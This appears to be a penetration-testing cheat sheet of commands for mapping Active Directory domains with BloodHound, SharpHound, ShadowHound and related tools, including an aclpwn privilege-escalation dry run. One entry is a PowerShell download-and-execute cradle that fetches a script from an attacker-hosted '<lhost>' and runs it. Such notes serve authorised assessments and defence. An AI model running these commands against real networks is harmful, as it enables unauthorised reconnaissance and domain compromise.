 # BloodHound

% bloodhound, shadowhound, sharphound, Active Directory

## Start neo4j server
#assessment/AD #attack_type/Enumeration #access/Domain_user

Start the neo4j server to host BloodHound.

```bash
neo4j start
```

## Launch BloodHound-CE
#assessment/AD #attack_type/Enumeration #access/Domain_user

Start BloodHound-CE (Community Edition).

```bash
bloodhound-ce &> /dev/null &
```

## Collect data (BloodHound.py)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using BloodHound.py.

⚠️ Data is formatted for BloodHound legacy.

```bash
bloodhound.py --zip -c All -d <domain> -u <user> -p <password> -dc <dc-ip>
```

## Collect data (BloodHound-CE.py)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using BloodHound-CE.py.

 ⚠️Data is formatted for BloodHound-CE.

```bash
bloodhound-ce.py --zip -c All -d <domain> -u <user>> -p <password> -dc <dc-ip>
```

## Collect data (ShadowHound-DS)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using ShadowHound-DS PowerShell script.

ShadowHound-DS performs direct LDAP queries via DirectorySearcher, which is useful when the AD module is not available or LDAP access is preferred.

⚠️ Data must be converted with using BofHound.py.

```powershell
Import-Module .\ShadowHound-DS.ps1
ShadowHound-DS -OutputFile "ldap_output.txt"
```

## Collect data (ShadowHound-ADM)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using ShadowHound-ADM PowerShell script.

ShadowHound-ADM.ps1 uses the Active Directory module via AD Web Services (ADWS) to collect information on users, groups, computers and certificates.

⚠️ Data must be converted with using BofHound.py.

```powershell
Import-Module .\ShadowHound-ADM.ps1
ShadowHound-ADM -OutputFilePath "ldap_output.txt"
```

## Collect data (SharpHound)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using SharpHound.

⚠️ Data is formatted for BloodHound legacy.

```powershell
runas /netonly /user:<domain>\<domain user> powershell.exe
.\SharpHound.exe 
```

## Collect data (SharpHound PowerShell)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Collect data and map the domain using SharpHound PowerShell script.

⚠️ Data is formatted for BloodHound legacy.

```powershell
Import-Module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## Collect data (SharpHound PowerShell - download and execute)
#assessment/AD #attack_type/Enumeration #access/Domain_user

Downloads and execute SharpHound PowerShell script to collect data and map the domain.

⚠️ Data is formatted for BloodHound legacy.

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## Convert data (BofHound.py)
#assessment/AD #attack_type/Enumeration #access/Anonymous

Convert collected data for BloodHound using BofHound.py.

```bash
bofhound.py -i ldap_output.txt -p All --parser ldapsearch
```

## Import data (BloodHound)
#assessment/AD #attack_type/Enumeration #access/Anonymous

Import collected data into BloodHound legacy.

```bash
bloodhound-import -du <neo4j_username> -dp <neo4j_password> <json_file>
```

## Cypheroth - Start
#assessment/AD #attack_type/Enumeration #access/Anonymous

Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## Aclpwn - from computer to domain - dry run
#assessment/AD #attack_type/Enumeration #access/Anonymous

Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```

# BloodHound queries
% bloodhound, shadowhound, sharphound, Active Directory, query, queries

## User accounts with SPN
#assessment/AD #attack_type/Quickwin #access/Anonymous

List all user accounts with a ServicePrincipalName (SPN).

```bash
MATCH (n:User)WHERE n.hasspn=true RETURN n
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= neo4j_username: neo4j
= neo4j_password: neo4j
= json_file: *json

